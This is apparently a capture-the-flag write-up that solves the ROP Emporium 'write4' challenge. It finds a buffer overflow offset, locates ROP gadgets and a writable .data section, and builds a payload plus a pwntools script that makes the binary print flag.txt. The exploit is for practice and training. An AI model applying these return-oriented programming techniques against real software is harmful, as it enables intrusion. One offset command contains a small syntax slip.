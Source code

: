 # Basic Test:

## Check call system into binary file
```bash
strace ./write4
```

## Check protection into binary file
```bash
checksec ./write4
```

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'

<br>

# Exploitation:

## Clear the kernel ring buffer
```bash
sudo dmesg -C
```

## Find offset for overwrite RIP
```bash
python2 -c 'print "A"*40 + "B"*4*' | ./write4
```

## See output
```bash
sudo dmesg -T
```

	[dim. avril  9 17:17:09 2023] write4[211697]: segfault at a42424242 ip 0000000a42424242 sp 00007ffc230ab6c0 error 14 in libc.so.6[7f0cd001f000+26000] likely on CPU 0 (core 0, socket 0)

## Find the a gadget for two parameters for moving into a section writable

```bash
ROPgadget --binary ./write4 | grep "pop r14 ; pop r15"
```
 
	0x0000000000400690 : pop r14 ; pop r15 ; ret

## Find a section writable
```bash
readelf -S ./write4
```

	  [23] .data             PROGBITS         0000000000601028  00001028
	       0000000000000010  0000000000000000  WA       0     0     8

## Find a gadget for moving the file name into .data
```bash
ROPgadget --binary ./write4 | grep "mov qword"
```

	0x0000000000400628 : mov qword ptr [r14], r15 ; ret

## Find a gadget for one parameter
```bash
ROPgadget --binary ./write4 | grep "pop rdi"
```

	0x0000000000400693 : pop rdi ; ret

## Find the address of the print_file function
```bash
pwngdb> disass*usefulFunction
```

	   0x0000000000400617 <+0>:     push   rbp
	   0x0000000000400618 <+1>:     mov    rbp,rsp
	   0x000000000040061b <+4>:     mov    edi,0x4006b4
	   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
	   0x0000000000400625 <+14>:    nop
	   0x0000000000400626 <+15>:    pop    rbp
	   0x0000000000400627 <+16>:    ret

## Convert Big Endian in Little Endian with python2
```python
>>> from pwn import *
>>> p64(0x0000000000400690)
'\x90\x06@\x00\x00\x00\x00\x00'
>>> p64(0x000000000601028)
'(\x10`\x00\x00\x00\x00\x00'
>>> p64(0x0000000000400628)
'(\x06@\x00\x00\x00\x00\x00'
>>> p64(0x0000000000400693)
'\x93\x06@\x00\x00\x00\x00\x00'
>>> p64(0x000000000601028)
'(\x10`\x00\x00\x00\x00\x00'
>>> p64(0x400510)
'\x10\x05@\x00\x00\x00\x00\x00'
```

## Payload final CLI

```bash
python2 -c 'print "A"*40 + "\x90\x06@\x00\x00\x00\x00\x00" + "(\x10`\x00\x00\x00\x00\x00" + "flag.txt" + "(\x06@\x00\x00\x00\x00\x00" + "\x93\x06@\x00\x00\x00\x00\x00" + "(\x10`\x00\x00\x00\x00\x00" + "\x10\x05@\x00\x00\x00\x00\x00"' | ./write4 # pop r14 ; pop r15 = 0x0000000000400690 + .data = 0x000000000601028 + file = flag.txt + mov qword PTR [r14], r15 = 0x0000000000400628 + pop rdi = 0x0000000000400693 + .data = 0x000000000601028 + call print_file = 0x400510
```

## Python2 pwntools script
```python
#usr/bin/python2
from pwn import *
elf = ELF("./write4")

padding = "A"*40
pop_r14_pop_r15 = p64(0x0000000000400690)
section_data = p64(0x000000000601028)
string = "flag.txt"
mov_qword_r14_r15 = p64(0x0000000000400628)
pop_rdi = p64(0x0000000000400693)
call_print_file = p64(0x400510)

  

payload = padding + pop_r14_pop_r15 + section_data + string + mov_qword_r14_r15
payload += pop_rdi + section_data + call_print_file

  

print(payload)
io = process(elf.path)
io.recvuntil(">")
io.sendline(payload)
print(io.recvall())

# OR

"""
io = process(elf.path)
io.sendlineafter(">", payload)
io.interactive()
"""
```